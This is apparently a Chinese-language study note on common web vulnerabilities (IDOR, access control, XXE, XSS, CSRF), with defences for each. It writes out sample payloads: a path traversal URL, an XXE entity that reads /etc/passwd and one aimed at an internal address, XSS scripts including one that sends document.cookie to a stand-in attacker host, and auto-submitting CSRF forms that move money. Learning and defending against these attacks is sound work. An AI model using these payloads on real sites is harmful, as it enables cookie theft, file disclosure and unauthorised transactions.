



## 概述



[OWASP TOP 10 简介](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/1.4.5_owasp_basic.html)

**不安全的直接对象引用：**

​	应用程序没有检查用户是否具备访问权限而让其能够直接调用系统的资源(如文件、数据库记录)，或者是修改URL 表单的参数。

举例：

​	新闻检索：http://example.com/online/getnews.asp?item=20July2017.html

​	攻击者：http://example.com/online/getnews.asp?item=././winnt/win.ini

​	防范：

​		1、避免在URL中直接引用内部文件名或者数据库关键字。

​		2、根据最小权限原则，禁止访问Web目录之外的文件

​		3、任何来自不可信源的直接对象引用都必须通过访问控制检测，确保该用户对请求的对象有访问权限。

​		4、验证用户输入和URL请求，拒绝包含./(当前目录)或../（父级目录）或者是转码的类“.%2f..%2f”请求。(%2f表示特殊字符/的编码形式)

**缺失功能级访问控制：**

​	是指大部分Web 应用都会在客户端检查访问权限，但是在服务器端没有执行相应的访问控制。

​	举例：很多系统的权限控制是通过页面灰化或隐藏URL实现的，没有在服务器端进行身份确认和权限验证，导致攻击者通过修改页面样式或获取隐藏URL，进而获取特权页面来对系统进行攻击，或者攻击者伪造请求访问未经授权的功能。

​	防范：

​		1、设计严格的权限控制系统，对于每个请求和URL都要进行校验和权限确认

​		2、对于每个功能的访问，都要有明确的角色授权，采用过滤器的方式校验每个请求的合法性

**XML外部实体注入（XXE）**

XXE（XML External Entity）漏洞是一种安全漏洞，出现在使用XML解析器的应用程序中。它允许攻击者利用可信任的XML扩展功能来执行恶意操作，如读取本地文件、发起远程网络请求或执行任意命令。      

攻击者可以通过构造恶意的XML输入，将外部实体（external entity）引用进来，然后利用这些实体来获取敏感信息或进行其他攻击。其中最常见的一种攻击是利用DTD来读取本地文件，DTD 全称是 `The document type definition`，即是**文档类型定义**，当应用接收并解析‌未经验证的XML输入‌时，若DTD（文档类型定义）允许引用外部实体，攻击者可构造包含恶意实体的XML载荷‌，解析器执行实体替换时，将加载攻击者指定的外部资源（如本地文件、远程URL）‌。

```xml
POST /AjaxSearch.ashx HTTP/1.1
Host: test.com
Content-Type: text/xml;

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<c>&xxe</c>
```

我们创建了一个外部引用文档类型定义去访问一个敏感的系统文件，而这个外部引用会在应用程序中替代已经命名的实体去执行，最终获取到敏感文件，如果这个时候的执行结果会返回给用户，那么用户就可以看到敏感文件中的内容。


解析器尝试访问内网地址，攻击者可探测内网端口或服务

```
<!DOCTYPE root [
	<!ENTITY ssrf SYSTEM "http://192.168.1.1:8080/internal">
]>
<data>&ssrf;</data>
```


## SQL注入漏洞

[预编译SQL为什么能够防止SQL注入](https://www.cnblogs.com/Createsequence/p/16963891.html)

## XSS

漏洞基本原理：

应用程序将用户输入的数据未经充分验证或转义就直接嵌入到输出内容中，并且这些数据被浏览器解析执行。攻击者可以通过注入恶意脚本来实施攻击

### 反射型XSS

题目：

```php
<?php
// Is there any input?
if(array_key_exists("name",$_GET)&&$_GET['name']!=''){
    // Feedback for end user
    echo '<pre>Hello '.$_GET['name'].'</pre>';
}
?>
```

在PHP中，所有通过GET请求传入的参数都会被解析成一个关联数组`$_GET`

URL：`?name=Tom&age=25`

PHP解析成：

```php
$_GET = [
    'name' => 'Tom',
    'age' => '25'
];
```

URL：`?name=John%20Doe&city=New+York`

PHP解析成：

```php
$_GET = [
    'name' => 'John Doe',
    'city' => 'New York'
];
```

URL：`?colors[]=red&colors[]=green&colors[]=blue`

PHP解析成：

```php
$_GET = [
    'colors' => ['red', 'green', 'blue']
];
```

URL：`?user=Tom&user=Jerry`

PHP解析成

```php
$_GET = [
    'user' => 'Jerry'
];
```

所以XSS漏洞：

```
?name=<script>alert("hello")</script>
?name=<script>alert(document.cookie)</script>
```


知识点：



1、攻击者发现有反射型XSS漏洞的网站，然后构造一个包含恶意脚本的url，发给受害者

2、受害者点击，其浏览器向网站服务器发送包含恶意脚本的请求

3、服务器将恶意脚本嵌入到响应中返回给受害者，浏览器将恶意脚本解析执行。如将受害者的会话Cookie发送给攻击者指定地址

#### cookie是怎么发到攻击者服务器的？

攻击者构造：

```js
<script>
new Image().src = "http://attackerserver.com/steal?cookie=" + document.cookie;
</script>
```

受害者访问这个存在xss的网站的时候，脚本触发，从攻击者的网站请求一个图片资源，请求中包含了受害者的cookie信息，攻击者可以在日志中查看


### 存储型XSS



1、攻击者发现网站存在存储型XSS，例如写了一篇包含恶意XSS代码的博客文章，存到了数据库

2、用户浏览器访问此站点信息

3、服务器将包含恶意脚本的内存嵌入到响应中发回给用户

4、用户浏览器解析执行


### DOM XSS

基于DOM的XSS攻击来源于客户端处理的脚本中，无需服务端的参与

举个例子：

```html
<br>
<button onclick="update()">刷新</button>

<script>
	function update(){
        const src = document.querySelector('img');
		src.src = 'huawei.png';//实现点击之后换图片
    }
</script>
```

这里是写死的huawei.png，如果这里由用户输入控制，就可能触发DOM XSS

src.src = "javascript:alert('xss')"; 浏览器可能拦截

这里用了伪协议javascript:alert('xss')

常见伪协议：

| 伪协议      | 示例                       | 说明                                 |
| ----------- | -------------------------- | ------------------------------------ |
| javascript: | javascript:alert(1)        | 在点击链接时执行一段 JavaScript 代码 |
| data:       | data:text/html,Hello       | 直接嵌入数据作为资源内容             |
| mailto:     | mailto:someone@example.com | 打开默认邮件客户端                   |

当你在 HTML 中写一个链接像这样：

```
<a href="javascript:alert(1)">点我</a>
```

当你点击这个链接时，浏览器不会跳转到其他页面，而是**执行 `alert(1)` 这段 JavaScript 代码**。这就是所谓的**伪协议注入**


**安全问题：本身的前端代码通过DOM技术实现代码的更新修改，但是如果修改的数据如果可以由用户指定，就会造成DOM-XSS**


DOM XSS 你输入的内容是通过一段JS处理之后显示在页面上的

[DOM XSS例子](https://www.cnblogs.com/mysticbinary/p/12542695.html)


防御方式：

1、输入验证

​	在客户端和服务器端都要进行验证，包括输入数据类型、数据格式或数据长度等。服务器端应当设置一个尽可能严密的`XSSFilter`来过滤和净化用户输入。

​	采用白名单对输入数据进行验证，例如在服务端仅允许字母数字字符

​	采用黑名单对输入数据进行过滤，例如在服务端针对非法的HTML代码包括单双引号等，应编写函数对其进行检查或过滤

2、不要用原始的方式直接把变量输出到网页中，因为这不安全。应该使用框架提供的标签输出方式，并开启 `escapeHtml="true"` 来自动对内容进行转义，防止 XSS 攻击。

3、输出的特殊字符转化为HTML实体

4、Cookie设置为HttpOnly，阻止客户端JavaScript直接访问Cookie

5、谨慎使用DOM操作：尽可能避免使用DOM 进行客户端重定向、文档操作或调用本地数据等敏感操作，转而将这些行为放到服务器端使用动态页面的方式来实现。

6、使用检测工具：XSS 漏洞自动化检测工具进行检测，如XSSDetect等


## CSRF跨站请求伪造

完成CSRF 受害者需要满足：

1、登录受信任站点A，并在本地生成Cookie

2、在不登出A的情况下，访问危机站点B

#### GET类型的CSRF

银行站点A以GET请求完成转账：`http://www.mybank.com/Transfer.php?toBankId=11&money=1000 `

危险站点B有一段HTML代码：``


#### POST类型的CSRF

1、

对于一个表单：

```html
<form action=" / register" id="register" method="post" >
       <input type=text name="username" value="" />
       <input type=password name="password" value="" />
       <input type=submit name="submit" value="submit" />
</form>
```

用户可以构造一个get请求：

```
http://host/register?username=test&password=passwd
```

如果服务器端用的是`$_REQUEST`获取变量而不是`$_POST`，则这个请求也会通过

2、

如果服务器端已经区分了GET与POST，那么攻击者可以在一个页面中构造好一个表单，然后使用JavaScript自动提交这个表单。

```html
<html>
  <body>
    <form id="csrfForm" action="http://targetsite.com/transfer" method="POST">
      <!-- 隐藏字段，如果目标接口需要参数 -->
      <input type="hidden" name="to_account" value="attacker_account">
      <input type="hidden" name="amount" value="1000">
    </form>
    <script>
      document.getElementById('csrfForm').submit();
    </script>
  </body>
</html>

```

3、

假如购买商品的地址：/coures/user/handler/666/buy.php

666为商品ID，那么攻击者现在构造一个链接，链接中包含以下内容：

```html
<form action=/coures/user/handler/666/buy.php method=POST>
     <input type="text" name="xx" value="xx" />
</form>
<script> document.forms[0].submit(); </script> 
```

当用户访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作，自动购买了id为666的视频，从而导致受害者余额扣除

4、

点击链接

```html
 <a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker"  taget="_blank">
 	重磅消息！！
 <a/>
```

#### 防护措施

1、避免在URL 中明文显示特定操作的参数内容

2、验证HTTP 头部Referer信息

​	当用户通过黑客的网站发送请求到银行，Referer指向的是黑客自己的网站而不是银行的网站。因此银行需要验证每一个请求转账的Referer值。

​	但是Referer是可以修改的。

3、要求用户提交额外的验证信息

​	例如要求用户在进行重要的业务之前输入口令或图形验证码。CSRF攻击过程往往是在用户不知情的情况下构造了请求，而验证码强制用户与应用进行交互才能完成最终请求。因此通常验证码能很好地遏制CSRF

4、使用CSRF令牌

​	令牌是一个随机生成的字符串，通常在用户会话中与用户关联。当用户执行敏感操作时，服务器将检查请求中的令牌是否与会话中的令牌匹配。只有当令牌匹配时，服务器才会处理该请求。

​	举例：

​	1、登录和获取CSRF令牌

​		登录后会生成一个CSRF Token，并将其存储在Session中，同时，改token也会作为隐藏字段嵌入到转账表单。

```py
import secrets

def generate_csrf_token(session):
    token = secrets.token_hex(16)
    session['csrf_token'] = token
    return token
```

```html
<form action="/update-profile" method="post">
    <!-- 隐藏字段 -->
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    <!-- 其他表单字段 -->
    <input type="text" name="email" placeholder="Email">
    <input type="submit" value="Update">
</form>
```

​	2、填写转账表单

​		因为csrf_token已经嵌入到表单中，提交的时候令牌也会一同发送到服务器

​	3、服务器验证CSRF令牌

​		服务器检查请求中的CSRF token与Session中的是否匹配。

```py
from flask import request, session, abort

@app.route('/update-profile', methods=['POST'])
def update_profile():
    submitted_token = request.form['csrf_token']
    stored_token = session.get('csrf_token')

    if submitted_token != stored_token:
        abort(403)  # 拒绝请求

    # 更新用户个人信息
```

